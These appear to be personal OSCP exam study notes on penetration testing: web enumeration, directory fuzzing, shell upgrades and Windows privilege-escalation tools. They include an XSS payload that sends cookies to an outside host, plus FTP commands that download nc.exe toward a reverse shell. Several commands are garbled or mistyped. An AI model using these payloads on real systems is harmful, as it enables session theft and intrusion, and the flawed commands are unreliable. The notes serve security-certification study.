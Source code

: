 # OSCP NOTES

● <script>new image().src="http://ip:port/bogus.php?output="+escape(document.cookie);</script>
● netstat -ntl >> list open port
● wappalyzer >> webpage programming lange ,service{apache,lls}, OS
● <dirb> <gobaster> :: fuzzing directuries >> wfuzz 
   wfuzz -c -z file,wordlist directiry --hc 404,302,301 url/fuzz.(php,txt,zip,sh........)

○ python -c 'import pty; pty.spawn("/bin/bash")'
   Ctrl +z 》 process to background 
   Stay raw -echo
   fg
   By this way you take interactive shell

○ reverse shell by FTB
    echo open ip >ftp.txt
    echo user limbo >ftp.txt
    echo pass >ftp.txt
    echo bin >ftp.txt
    echo GET nc.exe> ftp.txt
    echo bye>ftp.txt
 Ftp -v -n -s:ftp.txt

#automation enumeration

○ windows privesc check >> check system misconfiguration
○ watson >> .net app : find KBs(knownlege base) >> check patchs, updates
○ sherlok >> like wayson in powershell script
○ powerup >> token - services - dll hijacking - registery
○ windows exploit suggester >> patchs vs microsost vuln db
○ WinPEAS exe bat

--------------------------------------------------------------------------------------
wafwoof - nmap script >> for detect waf
wget -r / httrack url >> dowload website for offline scanning
whatweb >> info about website
whois >> info about domains / registeration







  
